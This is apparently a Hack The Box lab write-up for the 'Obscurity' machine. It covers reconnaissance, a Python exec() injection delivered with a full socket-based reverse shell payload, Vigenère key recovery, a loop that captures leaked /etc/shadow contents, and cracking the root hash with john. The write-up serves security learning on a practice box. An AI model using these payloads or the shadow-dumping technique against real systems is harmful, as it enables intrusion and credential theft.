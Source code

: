 ```yaml
---
path: "/htb-obscurity"
title: "Hack The Box - Obscurity"
date: "04/17/2020"
featuredImage: ../../images/obscurity.png
tags: ["pentesting", "hackthebox", "linux"]
---
```


Obscurity was a fun box to hack because it is CTF styled with lot of python code. As the name implies the author hid the vulnerabilities in plain sight. The first step towards “owning” any box is to do some reconnaissance (recon) with NMAP. This recon yielded 4 ports 2 of which are open. Ports 22 and 8080.

```
nmap -v -sV -sC -oA nmap/safe -Pn 10.10.10.168
Nmap scan report for 10.10.10.168
Host is up (0.19s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
|
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
```

Web servers are usually riddled with vulnerabilities, hence port 8080 is a good first choice to enumerate and also continue recon.

The tool gobuster can be used for enumerating the web server to find interesting endpoints; this yielded nothing. Reading through the content of the page that is hosted at port 8080, there is a message that states the filename of the web server (SuperSecureServer.py) and also implies that this file is publicly hosted in a “secret” directory.

![HomePage](../../images/obscurity/homepage.gif)

From the message on the site, the goal now is to fuzz the directory that might contain the file SuperSecureServer.py. The tool wfuzz can be leveraged for this.

`wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt http://10.10.10.168:8080/FUZZ/SuperSecureServer.py`

Once completed, we can find the file at http://10.10.10.168:8000/develop/SuperSecureServer.py . The contents of this file reveals the inner working of the web server and how it can be exploited to perform a Remote Code Execution (RCE).

View Source Code for [SuperSecureSever.py](https://gist.github.com/bascoe10/27fa856e886b6d09e80d5d580ed80e75)

In Line 139, there is an invocation of the method exec() with the path that is passed via the HTTP request. The exec() method executes dynamically created python program. If we pass a valid python program as the HTTP path, it will get executed by exec().

```
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

From the above snippet, the variable info will contain an extrapolated string that contains the URL path. After the extrapolation the string will take the form:

```
"output = 'Document: <path>'"
e.g "output = 'Document: /test/path'"
```

This string is a valid python program; a variable assignment. When this string is passed through exec(), it will create a variable name output which will have the a string value `Document: <path>`.

At this point the goal is to pass a python script as the URL path that will initiate a reverse shell. For this we can leverage the python reverse shell from [HackTricks](https://book.hacktricks.xyz/shells/shells/linux#python). The imports in this script are redundant as they have already been imported in script and hence can be removed. The final python payload will now be:

`';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.26",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

The single quotes are round this string are required to match the quotes of the string they will be extrapolated with.

With the help of Burpsuite, we can intercept a request to the server and then replace the path with the payload above. This payload assume that there is tcp listener on 1337 for the reverse shell. My goto is netcat.

`nc -lvnp 1337`

Once the reverse shell is established, we have an initial foothold in the box as user www-data. With this initial foothold, we can then start enumerating from within the box. This box only contains one user; robert.

We can list the content of Robert’s home directory, but cannot read the user flag file.

```
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 BetterSSH
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
-rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
-rwxrwxr-x 1 robert robert 2514 Oct  4  2019 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25  2019 user.txt
```

SuperSecureCrypt.py is a python implementation of Vigenère cipher.

View Source Code for [SuperSecureCrypt.py](https://gist.github.com/bascoe10/4e76d772f761a874b089c28ec112120d)

The key for a Vigenère cipher can be extracted if a plaintext, ciphertext pair is available. Here is why that is possible:

```
M := Plain text message
C := Cipher text
K := Encryption key
** 255 is the number of characters in the message alphabet (ascii)Encryption process:
C = (M + K) mod 255Decryption process:
M = (C - K) mod 255Key retrieval:
K = (C - M) mod 255
```

Looking at the content of check.txt we can see that it is the plaintext equivalent of out.txt. We can use this pair to extract the key. For this I created a simple python script:

View code [here](https://gist.github.com/bascoe10/45422021877e4e53d0dd9065af9653a3)

The output of this script is “alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichal”. If the message is longer than the key, the key will be repeated. Therefore in this case the key is “alexandrovich”.

The content of the file passwordreminder.txt is encrypted and hence need to be decrypted with SuperSecureCrypt.py using the recovered key.

```
python3 SuperSecureCrypt.py -d -i passwordreminder.txt -o /tmp/dcpt -k alexandrovich
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
############################
#        FILE MODE         #
############################
Opening file passwordreminder.txt...
Decrypting...
Writing to /tmp/dcpt...
www-data@obscure:/home/robert$ cat /tmp/dcpt
SecThruObsFTW
```

The output is a password that we can use to login as the user robert. This can be done via ssh or su.

```
www-data@obscure:/home/robert$ su robert
su robert
Password: SecThruObsFTW

robert@obscure:~$ cat user.txt
e4493782066b55fe2755708736ada2d7
```

The next step from here is to pivot to the root account. First we can check what executable our current user (robert) can execute with sudo privileges without a password

```
robert@obscure:~$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binUser robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

We can view the file /home/robert/BetterSSH/BetterSSH.py to find ways of exploiting it.

View source code for [BetterSSH.py](https://gist.github.com/bascoe10/6c4ed31f65b3364687cc9bf8a24ce3eb)

BetterSSH.py reads the contents of etc/shadow and writes it to a random file in /tmp/SSH/. My approach to exploiting this was to have a shell script that periodically dumps the content of all files in /tmp/SSH/. This being the case when BetterSSH.py is executed, it would leak the content of etc/shadow which would be capture by the running shell script.

```
==========
TERMINAL 1
==========

robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
robert
Enter password: SecThruObsFTW
SecThruObsFTW
Authed!

==========
TERMINAL 2
==========
while [ 0 -lt 10 ]; do cat /tmp/SSH/*; sleep 0.2; done
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7
```

With this hash for the root account, we can proceed to crack it and then use the result to login as root. (The hash is stored in pass.txt)

```
john --wordlist=rockyou.txt pass.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)
1g 0:00:00:00 DONE (2020-04-21 01:38) 1.234g/s 632.0p/s 632.0c/s 632.0C/s angelo..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

With this password at hand we can not login as the root user and get the root flag.

```
robert@obscure:~$ su root
su root
Password: mercedesroot@obscure:/home/robert# cat /root/root.txt
cat /root/root.txt
512fd4429f33a113a44d5acde23609e3
```
